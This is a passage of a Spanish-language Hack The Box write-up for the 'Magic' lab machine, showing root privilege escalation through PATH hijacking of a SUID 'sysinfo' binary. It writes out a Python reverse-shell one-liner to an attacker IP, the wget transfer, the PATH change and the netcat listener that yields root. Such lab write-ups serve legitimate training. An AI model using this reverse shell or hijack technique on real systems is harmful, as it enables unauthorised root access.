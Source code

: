 Hay un SUID muy particular que es `sysinfo` y que se divide en 4 partes. Estas 4 partes usan los siguientes comandos de Linux

```
- Hardware Info = lshw -short
- Disk Info = fdisk -l
- CPU Info = cat /proc/cpuinfo
- Mem Usage = free -h
```

Procedemos a cambiar las variables del PATH y en este caso vamos a utilizar `lshw`. Para esto, creamos una shell reversa en Python y lo guardamos en un archivo llamado `lshw`

```python
┌─[root@parrot]─[/home/nicolasmira101/Documents/Hack-the-box/Maquinas/Magic]
└──╼ #pluma lshw

python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.21",5555));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
```

Con `wget` enviamos este archivo a la máquina de Magic a la carpeta `/tmp`

```bash
www-data@ubuntu:/tmp$ wget http://10.10.14.21:80/lshw
wget http://10.10.14.21:80/lshw                                    
--2020-06-04 22:53:48--  http://10.10.14.21/lshw                                                                                       
Connecting to 10.10.14.21:80... connected.                         
HTTP request sent, awaiting response... 200 OK                     
Length: 226 [application/octet-stream]                             
Saving to: 'lshw'                

lshw                100%[===================>]     226  --.-KB/s    in 0.009s  

2020-06-04 22:53:48 (25.1 KB/s) - 'lshw' saved [226/226]
```

Cambiamos los permisos a este archivo y cambiamos el `PATH` en las variables de entorno

```bash
www-data@ubuntu:/tmp$ chmod +x lshw                                
chmod +x lshw                    
www-data@ubuntu:/tmp$ export PATH=/tmp:$PATH                       
export PATH=/tmp:$PATH           
```

Finalmente, creamos una sesión en netcat en modo escucha en el puerto que hayamos establecido en el archivo `lshw` y ejecutamos el comando `sysinfo`. De esta forma, ya obtendremos el flag del root.

```bash
theseus@ubuntu:/tmp/magic$ sysinfo
sysinfo

┌─[root@parrot]─[/home/nicolasmira101/Documents/Hack-the-box/Maquinas/Magic]
└──╼ #nc -nlvp 5555
listening on [any] 5555 ...
connect to [10.10.14.21] from (UNKNOWN) [10.10.10.185] 57314
root@ubuntu:/tmp/magic# whoami
whoami
root
root@ubuntu:/tmp/magic# cat /root/root.txt
cat /root/root.txt
8aacad..........................
```

